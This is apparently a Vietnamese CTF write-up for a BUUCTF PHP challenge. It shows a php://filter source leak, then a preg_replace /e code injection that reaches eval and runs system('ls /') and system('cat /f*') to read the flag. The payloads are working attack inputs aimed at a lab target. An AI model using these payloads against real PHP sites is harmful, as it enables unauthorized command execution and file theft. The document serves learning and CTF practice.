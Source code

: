 ![Screenshot 2023-12-19 100803](https://github.com/Llam-a/BUUCTF/assets/115911041/f8f686d1-21bf-42f8-b353-9519b1a0e616)

Challenge này khá giống chall [này](https://github.com/Llam-a/BUUCTF/blob/main/%5BGXYCTF2019%5D%E7%A6%81%E6%AD%A2%E5%A5%97%E5%A8%83.md) nên là mình skip vài bước đầu.

Payload: `?text=data://text/plain;base64,SSBoYXZlIGEgZHJlYW0=&file=php://filter/convert.base64-encode/resource=next.php`

Sau đó được 1 chuỗi base64 đem đi decode

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei', 
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

Có 2 hàm trong source mà ta có thể dùng để bypass là `getFlag` và `eval`.Nhưng trong source lại ko có hàm nào có thể trigger 2 hàm đó.Nhưng 

```php
function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}
```
Cú pháp của `preg_replace($pattern, $replacement, $subject);`.Nói cho dễ hiều thì ví dụ `preg_replace(1,2,3)` thì 3 sẽ đi tìm 1 bên trong 3 và từ đó thay đổi cái vừa tìm được thành 2. Điểm quan trọng là `/e`, 'ei' của hàm preg_replace() cho phép sử dụng regex là một biểu thức PHP và kiểu chữ thường trong kết quả thay thế.

Mình có đọc wu [ở đây](https://xz.aliyun.com/t/2557) để hiểu thêm cách bypass `preg_replace()/e`

Theo wu đó thì mình sử dụng `. *` để bypass ví dụ

`return preg_replace('/(. *)/ei', 'strtolower("\\1")', 'LAMA');`

Thì kết quả trả về sẽ là `lama`

Vậy từ đề bài

```php
Original statement: preg_replace('/(' . $regex . ')/ei', 'strtolower("\\1")', $value);
Change the statement: preg_replace('/(.*)/ei', 'strtolower("\\1")', {${phpinfo()}});
```

Đầu tiên mình ls các file ra `/next.php?\S*=${getFlag()}&cmd=system("ls /");`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/1e7747b0-2f7e-4cc6-8661-291c1ec644d8)

Rồi giờ mình cat flag ra thôi `/next.php?\S*=${getFlag()}&cmd=system("cat%20/f*");`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/23d78709-a9d7-4448-a51b-d19f751b2606)


